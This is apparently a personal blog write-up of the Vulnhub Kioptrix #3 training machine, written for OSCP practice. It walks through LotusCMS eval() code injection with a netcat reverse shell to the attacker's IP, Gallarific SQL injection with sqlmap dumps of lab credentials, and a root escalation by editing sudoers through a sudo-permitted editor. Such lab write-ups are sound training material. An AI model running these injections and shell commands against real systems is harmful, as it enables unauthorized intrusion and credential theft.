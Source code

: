 ```yaml
---
layout: single_c
title:  "Vulnhub - Kioptrix #3 Writeup"
date:   2020-02-07 10:43:16 +0530
categories: OSCP
tags: Vulnhub
classes: wide
---
```

### [Vulnhub - Kioptrix #3](https://www.vulnhub.com/entry/kioptrix-level-12-3,24/)

## Enumeration
Lets add `kioptrix3.com` to `hosts` file and start off with `Nmap`

#### Nmap
```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-03 16:34 IST
Nmap scan report for 192.168.71.130
Host is up (0.0026s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Ligoat Security - Got Goat? Security ...
MAC Address: 00:0C:29:93:F2:E6 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.25 seconds
```

Found some interesting urls by browsing around and using `dirb`.
```bash
http://kioptrix3.com/phpmyadmin/
http://kioptrix3.com/gallery/gadmin/
http://kioptrix3.com/index.php?system=Admin
```

There are lot of methods to compromise this system. I will try to explain the ones I found.

# User Shell Method 1 (Lotus CMS RCE)
The webserver is using `LotusCms`. A quick search using `searchsploit` yielded some `RCE`

#### Searchsploit
```bash
kali@kali:~$ searchsploit lotuscms
LotusCMS 3.0 - 'eval()' Remote Command Execution (Metasploit)               | exploits/php/remote/18565.rb
```

Its a `metasploit` module. However since use of `metasploit` is limited during OSCP, I exploited it without `metasploit`

#### Understanding LotusCms RCE  
>This module exploits a vulnerability found in Lotus CMS 3.0's Router() function. This is done by embedding PHP code in the 'page' parameter, 
>which will be passed to a eval call, therefore allowing remote code execution.

So we can escape the `eval` call and execute our own php code by appending `');`

A reverse shell can be execute using the following code
```bash
kioptrix3.com/index.php?page=index');exec("nc -e /bin/bash 192.168.174.3 1234"); //
```
Setup a `nc` listener to catch the request and use `python pty` module to upgrade it to a full TTY shell
```bash
kali@kali:~$ nc -lvp 1234
listening on [any] 1234 ...
connect to [192.168.174.3] from kioptrix3.com [192.168.174.5] 34305
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@Kioptrix3:/home/www/kioptrix3.com$    
```

## Low Shell Enumeration

There is a file named `gconfig.php` in `/home/www/kioptrix3.com/gallery` that contains the `db` credentials
```bash
www-data@Kioptrix3:/home/www/kioptrix3.com/gallery$ cat gconfig.php
cat gconfig.php
-------output snipped---------------
        $GLOBALS["gallarific_path"] = "http://kioptrix3.com/gallery";

        $GLOBALS["gallarific_mysql_server"] = "localhost";
        $GLOBALS["gallarific_mysql_database"] = "gallery";
        $GLOBALS["gallarific_mysql_username"] = "root";
        $GLOBALS["gallarific_mysql_password"] = "fuckeyou";
-------output snipped---------------
```

We can use these credential to login to `phpmyadmin` and find credentials for `dreg` and `loneferret` and use it to `SSH` into the box.
But we have to crack the hashes to get the password.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix3/phpmyadmin2.png){: .align-center}

# User Shell Method 2 (SQL Injection)

The web server is using `Gallarific`. It contains an SQL Injection in the following url.

```bash
http://kioptrix3.com/gallery/gallery.php?id=1%27&sort=filename#photos
```
![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix3/sql1.png){: .align-center}

The sql error indicates that sql injection is possible. Lets dump the database using `sqlmap`

#### SqlMap
```bash
Database: gallery
Table: dev_accounts
[2 entries]
+----+----------------------------------+------------+
| id | password                         | username   |
+----+----------------------------------+------------+
| 1  | 0d3eccfb887aabd50f243b3f155c0f85 | dreg       |
| 2  | 5badcaf789d3d1d09794d8f021f40f0e | loneferret |
+----+----------------------------------+------------+

Database: gallery
Table: gallarific_users
[1 entry]
+--------+---------+---------+---------+----------+----------+----------+----------+-----------+-----------+------------+-------------+
| userid | email   | photo   | website | joincode | lastname | password | username | usertype  | firstname | datejoined | issuperuser |
+--------+---------+---------+---------+----------+----------+----------+----------+-----------+-----------+------------+-------------+
| 1      | <blank> | <blank> | <blank> | <blank>  | User     | n0t7t1k4 | admin    | superuser | Super     | 1302628616 | 1           |

```
`sqlmap` found login for the users `dreg` and `loneferret` and also logins for `gallarffic`.

These hashes can be cracked using rainbow tables or by brute forcing.

#### Crackstation (Rainbow Table Attack)
We can crack the hashes using online rainbow table hash cracker. [Crackstaion](crackstation.net/)
![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix3/crackstation.png){: .align-center}


## Root Shell
After `SSH`ing into the box we can see that there is a file named `CompanyPolicy.README` which contains the following text.

```bash
loneferret@Kioptrix3:/home/loneferret# cat CompanyPolicy.README 
Hello new employee,
It is company policy here to use our newly installed software for editing, creating and viewing files.
Please use the command 'sudo ht'.
Failure to do so will result in you immediate termination.

DG
CEO
```

So we can run `sudo ht`. `ht` is a text editor and since its running as `root` we can gain `root` using one these methods
1. Edit `sudoers` file 
2. Add our key to `ssh`
3. Change the password file.

Since method 1 is the easiest, lets do it that way.

Before using `ht` we have to set the `$TERM` env variable to `xterm`
```bash
loneferret@Kioptrix3:/home/loneferret#export TERM=xterm
```
So lets open `sudoers` file and add `/bin/sh` to it.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix3/root.gif){: .align-center}

And we are root!

## Afterthoughts
This box was comparatively easy to root. But that was not the case for me. This was because I failed to enumerate the box properly. Once I found a possible exploit
I immediately abandoned further enumeration and focused on that method alone and ended up getting stuck and had to look for hints. So I have learned a very important lesson form this box. Enumeration is the most important step.  
There seems to be a kernel exploit available for this box, but I did not try that out.

## Further reading
1. [Manual SQL Injection.](https://www.hackingarticles.in/manual-sql-injection-exploitation-step-step) Can't use `sqlmap` during OSCP
2. [Structure of sudoers file](https://www.garron.me/en/linux/visudo-command-sudoers-file-sudo-default-editor.html)
3. [Autorecon.](https://github.com/Tib3rius/AutoRecon) An excellent tool for automating enumeration